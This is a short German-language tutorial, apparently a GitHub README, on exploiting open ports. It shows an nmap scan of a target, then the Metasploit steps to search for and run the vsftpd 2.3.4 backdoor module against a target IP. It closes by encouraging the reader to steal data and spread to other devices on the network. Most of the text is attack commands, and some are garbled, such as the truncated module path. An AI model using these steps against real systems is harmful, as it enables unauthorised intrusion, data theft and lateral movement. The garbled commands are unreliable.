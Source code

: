 Exploit Ports:
Um einen Port zu exploiten muss man zuerst wissen welchen Port man angreift. Dazu wird ein Portscan benötigt u zu sehen welched Portsoffen sind.

sudo nmap -p- -sV -O {IP-Adresse des Ziels}
  
 <h2>Port 21:</h2>

service postgresql start
 service postgresql status 
  
Danach wird ein passwort verlangt

<img style="float: left" src="https://user-images.githubusercontent.com/57325335/134168995-94cda790-8dd0-4b10-aa4d-6c21b3ead126.png" alt="PStatus Serie" width="600" height="250">
  
  
Danach öffnet man die "msf console": msfconsole
  
In dieser Konsole sucht man nach einem Exploit für diese Version:
  
  search vsftpd 2.3.4
  So sieht es aus wenn ein Exploit existiert
![image](https://user-images.githubusercontent.com/57325335/134171809-b1af4e1a-e66e-42e8-a819-9b2ee5c7ad60.png)

loit/unix/ftp/vsftpd_234_backdoor
use exploit loit/unix/ftp/vsftpd_234_backdoor
  
show options
  ![image](https://user-images.githubusercontent.com/57325335/134179000-68e9e466-7846-439e-991a-19a5aa512d45.png)
Hier sieht an wie die Konfuguration aussieht. Man Merkt recht schnell das man noch die IP adresse des Host eintragen muss, damit man den Port 21 exploiten kann.
  
set RHOST {IP-Adresse des Ziels}
  
 Nohal kontrolieren mit: show options
  
 danah kann an einfah den Comand "exploit" absetzen
  ![image](https://user-images.githubusercontent.com/57325335/134179776-3da11699-69f9-4046-9d4c-dee49130c2b9.png)
  
  Da man nun imSystem ist kann man mit Befehlen wie WHOAMI oder $HOME sich auf dem Zielsystem umshehen, Daten klauen und seinen Zugrif aus Andere Geräte im Netzwerk erweitern. 

